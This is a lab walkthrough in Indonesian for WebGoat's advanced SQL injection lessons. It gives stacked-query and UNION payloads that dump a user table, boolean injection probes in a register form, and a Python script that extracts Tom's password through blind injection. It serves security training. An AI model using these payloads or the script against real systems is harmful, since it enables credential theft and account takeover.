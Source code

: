 # SQL Injection (advanced)
## Try It! Pulling data from other tables
- Masukkan query injection sebagai berikut lalu tekan tombol **Get Account Info**
```sh
'; select * from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%201.JPG)

- Setelah data tampil, kita dapat menemukan password user dave

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%202.JPG)

- Masukkan password user dave ke field Password dan tekan tombol **Check Password**
```sh
passW0rD
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%204.JPG)

- Selain query injection diatas, kita juga bisa memasukkan query sebagai berikut
```sh
' union select userid, user_name, password, cookie, null as c1, null as c2, null as c3 from user_system_data; --
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%205.JPG)

## Can you log in as Tom?

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%206.JPG)

- Berdasarkan petunjuk soal, celah keamanan berada di field `Username` pada form **REGISTER**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%207.JPG)

- Pertama-tama kita nyalakan tool Burp Suite, kemudian kita coba masukkan payload sql injection pada field `Username` dan untuk field lainnya bisa diisi secara bebas seperti contoh berikut ini

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%208.JPG)

- Jika sudah klik tombol **Register Now** maka akan muncul pesan bahwa `User ' or 1=1;-- sudah ada` jadi kita harus menggantinya dengan username lain
```sh
' or 1=1;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%209.JPG)

- Kemudian kita coba ganti username dengan payload sql injection lainnya seperti dibawah ini
```sh
' or 1!=1;--
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2010.JPG)

- Setelah kita klik tombol **Register Now** muncul pesan bahwa `User ' or 1!=1;-- berhasil dibuat` jadi kita bisa melakukan login. Dari sini dapat disimpulkan bahwa jika query pengecekan username bernilai `true` maka muncul pesan bahwa user sudah ada, sedangkan jika query pengecekan username bernilai `false` maka user akan ditambahkan ke database. Jadi kita bisa manfaatkan celah ini untuk mengetahui password user tom melalui serangkain sql injection

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2011.JPG)

- Pada tool Burp Suite terdeteksi endpoint `/WebGoat/SqlInjectionAdvanced/challenge` yang digunakan untuk melakukan register user baru

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2012.JPG)

- Payload yang kita gunakan untuk mengetahui password user tom adalah sebagai berikut
```sh
tom' and substring(password, 1, 1)='a
```
- Berikut ini adalah source code python yang kita gunakan mengoptimalisasi proses sql injection diatas. Simpan script dibawah ini dengan nama `pass_tom.py`
```sh
import requests

url = 'http://IP_Server:8080' #ubah url sesuai url server anda

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/WebGoat/start.mvc?username=testing',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'X-Requested-With': 'XMLHttpRequest',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache',
    'Cookie': 'JSESSIONID=xxx' #ubah nilai JSESSIONID sesuai nilai JSESSIONID yang muncul di Burp Suite anda
}

password=""
for length in range(1,25):
     for letter in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890":
          params = "username_reg=tom'+AND+substring(password%2C1%2C"+str(length)+")%3D'"+password+letter+"&email_reg=test%40example.com&password_reg=a&confirm_password_reg=a"
          request = requests.put(url+"/WebGoat/SqlInjectionAdvanced/challenge", headers=headers, data=params)
          if "already exists" in request.text:
               password += letter
               print("Progress : "+password)
               break

print(f"\n")     
print("Password yang ditemukan: "+password)
```
- Jalankan script python diatas di terminal
```sh
python3 pass_tom.py
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2014.JPG)

- Setelah program diatas dijalankan, kita berhasil mendapatkan password dari user tom. Sekarang kita tinggal lakukan login di form login
```sh
thisisasecretfortomonly
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2015.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/sql%20injection%20advanced/sqli%20advanced%2016.JPG)